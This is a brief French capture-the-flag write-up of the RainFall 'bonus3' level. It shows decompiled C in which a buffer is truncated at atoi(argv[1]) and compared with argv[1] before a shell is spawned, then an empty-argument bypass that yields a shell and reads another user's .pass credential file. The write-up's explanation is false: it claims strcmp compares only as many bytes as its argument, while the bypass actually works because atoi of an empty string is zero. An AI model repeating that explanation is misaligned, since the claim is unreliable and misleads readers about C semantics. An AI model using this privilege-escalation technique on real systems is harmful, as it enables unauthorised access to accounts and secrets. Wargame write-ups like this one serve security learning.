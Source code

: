 On arrive sur un executable qui attends un argument et print une string vide.

En regardant l'assembleur de plus pres ou voit qu'on ouvre le fichier qui contient le mot de passe, on remplit un buffer de 65 characteres,
puis:

buffer[atoi(argv[1])] = 0

Puis on compare le buffer avec argv[1].

int isSame = strcmp(buffer1, argv[1]);
if (isSame == 0) 
    execl("/bin/sh", 0x8048707, 0);

Donc si on mets le bon mot de passe, le programme devrait lancer un shell.

Mais en fait strcmp compare seulement autant de bytes que argv[1] ! Cela aurait pu etre protege en utilisant strncmp plutot, mais ici si on mets un argument vide la condition sera remplie! 

bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
cat /home/user/end/.pass